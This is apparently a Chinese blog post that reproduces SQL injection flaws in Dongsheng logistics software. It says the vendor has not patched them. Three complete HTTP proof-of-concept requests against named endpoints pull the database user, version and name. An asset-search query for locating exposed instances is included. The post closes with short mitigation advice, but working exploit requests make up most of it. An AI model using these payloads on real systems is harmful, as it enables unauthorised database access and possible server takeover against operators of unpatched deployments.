

# 东胜物流软件 SQL注入漏洞复现

### 0x01 产品简介

 东胜物流软件是一款致力于为客户提供IT支撑的 [SOP](https://so.csdn.net/so/search?q=SOP&spm=1001.2101.3001.7020)， 帮助客户大幅提高工作效率，降低各个环节潜在风险的物流软件。

### 0x02 漏洞概述

东胜物流软件 TCodeVoynoAdapter.aspx、/TruckMng/MsWlDriver/GetDataList、/MvcShipping/MsBaseInfo/SaveUserQuerySetting等接口处存在 [SQL](https://so.csdn.net/so/search?q=SQL&spm=1001.2101.3001.7020) 注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

微步资产测绘：app=东胜物流软件

### 0x04 漏洞复现 

**PoC-1**

```cobol
GET /FeeCodes/TCodeVoynoAdapter.aspx?mask=0&pos=0&strVESSEL=1%27+and+user+%3E0%3B-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

查询当前用户



**PoC-2** 

```cobol
GET /TruckMng/MsWlDriver/GetDataList?_dc=1665626804091&start=0&limit=30&sort=&condition=123+IN+(CHAR(113)%2bCHAR(120)%2bCHAR(112)%2bCHAR(113)%2bCHAR(113)%2bCHAR(32)%2b(select+%40%40version)%2bCHAR(32)%2bCHAR(113)%2bCHAR(122)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113))--%20&page=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

[查询数据库版本](https://so.csdn.net/so/search?q=%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE%E5%BA%93%E7%89%88%E6%9C%AC&spm=1001.2101.3001.7020)


PoC-3

```cobol
POST /MvcShipping/MsBaseInfo/SaveUserQuerySetting HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

formname=MsRptSaleBalProfitShareIndex'+AND+2523+IN+(SELECT+(CHAR(113)%2bCHAR(120)%2bCHAR(112)%2bCHAR(113)%2bCHAR(113)%2b(SELECT+SUBSTRING((ISNULL(CAST((+db_name%28%29)+AS+NVARCHAR(4000)),CHAR(32))),1,1024))%2bCHAR(113)%2bCHAR(122)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113)))+AND+'uKco'%3d'uKco&isvisible=true&issavevalue=true&querydetail=%7B%22PS_MBLNO%22%3A%22%22%2C%22PS_VESSEL%22%3A%22%22%2C%22PS_VOYNO%22%3A%22%22%2C%22PS_SALE%22%3A%22%5Cu91d1%5Cu78ca%22%2C%22PS_OP%22%3Anull%2C%22PS_EXPDATEBGN%22%3A%222020-02-01%22%2C%22PS_EXPDATEEND%22%3A%222020-02-29%22%2C%22PS_STLDATEBGN%22%3A%22%22%2C%22PS_STLDATEEND%22%3A%22%22%2C%22PS_ACCDATEBGN%22%3A%22%22%2C%22PS_ACCDATEEND%22%3A%22%22%2C%22checkboxfield-1188-inputEl%22%3A%22on%22%2C%22PS_CUSTSERVICE%22%3Anull%2C%22PS_DOC%22%3Anull%2C%22hiddenfield-1206-inputEl%22%3A%22%22%7D}
```

 查询当前数据库


### 0x05 修复建议

官方暂未修复该漏洞，请用户联系厂商修复漏洞：http://www.dongshengsoft.com/

部署Web应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。
